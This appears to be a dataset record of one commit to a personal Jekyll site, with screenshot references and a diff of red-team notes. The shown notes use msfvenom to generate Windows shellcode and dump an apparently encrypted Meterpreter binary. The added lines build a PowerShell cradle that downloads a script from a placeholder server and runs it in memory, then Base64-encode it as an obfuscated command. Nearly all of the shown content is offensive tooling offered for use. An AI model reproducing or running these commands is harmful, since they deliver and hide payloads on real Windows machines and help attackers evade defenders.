

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 900 px high, scrolled down 4424 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -255,8 +255,18 @@
 	xxd -i encmeter.bin
 ```
 
+
+
 Default MSF bin
 
 ```
 	msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Proxy Loading worked!" -f raw > shellcode.bin
 ```
+
+PS memory
+
+```powershell
+	$string = "iex (New-Object Net.WebClient).DownloadString('http://<webServer>:8082/ps.ps1')"
+	$encodedcommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($string))
+	echo $encodedcommand
+```
````
Also changed, not shown: other parts of notes.md (+1 -1 lines).
